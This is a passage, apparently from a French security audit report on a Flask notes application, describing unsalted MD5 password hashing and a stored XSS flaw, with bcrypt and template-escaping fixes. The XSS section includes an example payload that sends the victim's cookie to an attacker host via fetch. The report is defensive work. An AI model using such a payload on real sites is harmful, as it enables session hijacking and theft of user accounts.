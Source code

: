 **Impact** : Les mots de passe peuvent être cassés en quelques secondes avec des rainbow tables.

**Problèmes** :
- MD5 est obsolète et cassé
- Pas de salt
- Calcul instantané (pas de protection contre brute force)

### Correction
```python
# Utilisation de bcrypt avec salt aléatoire
import bcrypt

password_hash = bcrypt.hashpw(password.encode('utf-8'), bcrypt.gensalt())

# Vérification
if bcrypt.checkpw(password.encode('utf-8'), stored_hash):
    # Authentifié
```

**Protection** :
- Algorithme moderne et sécurisé
- Salt aléatoire unique pour chaque mot de passe
- Coût de calcul ajustable (ralentit les attaques)

---

## 3. CROSS-SITE SCRIPTING (XSS) (CWE-79)

### Sévérité : 🟠 ÉLEVÉE

### Vulnérabilité
```html
<!-- Template vulnérable -->
<h4 class="note-title">{{ note[1]|safe }}</h4>
<div class="note-content">{{ note[2]|safe }}</div>
```

**Impact** : Un attaquant peut injecter du JavaScript malveillant.

**Exemple d'attaque** :
```javascript
Titre de note: <script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```

### Correction
```html
<!-- Template sécurisé -->
<h4 class="note-title">{{ note['title'] }}</h4>
<div class="note-content">{{ note['content'] }}</div>
```

**Protection** : 
- Retrait du filtre `|safe`
- Jinja2 échappe automatiquement tous les caractères HTML spéciaux
- Les données sont insérées comme texte, pas comme HTML

---
